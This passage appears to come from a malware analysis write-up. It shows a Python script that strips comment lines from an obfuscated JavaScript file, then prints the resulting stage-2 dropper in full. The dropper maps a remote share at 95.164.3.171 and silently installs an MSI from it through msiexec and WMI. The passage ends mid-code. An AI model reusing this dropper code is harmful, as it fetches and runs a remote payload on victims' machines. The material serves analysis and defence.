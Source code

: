 ```python
        elif not line.startswith('//'):
            # if line doesn't start with "//", it's legitimate code, add it as is
            code_lines.append(line)

    # write extracted code lines to output file
    with open(output_file, 'w') as file:
        file.writelines(code_lines)

# example
input_file = '4ff60df7d165862e652f73752eb98cf92202a2d748b055ff1f99d4172fa4c92f.js'  # replace with input file name
output_file = 'dropper-clean.js'  # replace with output file name

extract_code_lines(input_file, output_file)

```

this script outputs to a cleaned-up file, which is the unobfuscated dropper.

## stage 2: the [unobfuscated] dropper

```js

var network = new ActiveXObject("WScript.Network");
var wmi = GetObject("winmgmts:\\\\.\\root\\cimv2");
var attempt = 0;
var connected = false;
var driveLetter, letter;
function isDriveMapped(letter) {
var drives = network.EnumNetworkDrives();
for (var i = 0; i < drives.length; i += 2) {
if (drives.Item(i) === letter) {
return true;
}
}
return false;
}
for (driveLetter = 90; driveLetter >= 65 && !connected; driveLetter--) {
letter = String.fromCharCode(driveLetter) + ":";
if (!isDriveMapped(letter)) {
try {
network.MapNetworkDrive(letter, "\\\\95.164.3.171@80\\share\\");
connected = true;
break;
} catch (e) {
attempt++;
}
}
}
if (!connected && attempt > 5) {
var command = 'net use ' + letter + ' \\\\95.164.3.171@80\\share\\ /persistent:no';
wmi.Get("Win32_Process").Create(command, null, null, null);
var startTime = new Date();
while (new Date() - startTime < 3000) {} 
connected = isDriveMapped(letter);
}
if (connected) {
var installCommand = 'msiexec.exe /i \\\\95.164.3.171@80\\share\\cisa.msi /qn';
wmi.Get("Win32_Process").Create(installCommand, null, null, null);
try {
network.RemoveNetworkDrive(letter, true, true);
} catch (e) {
}
```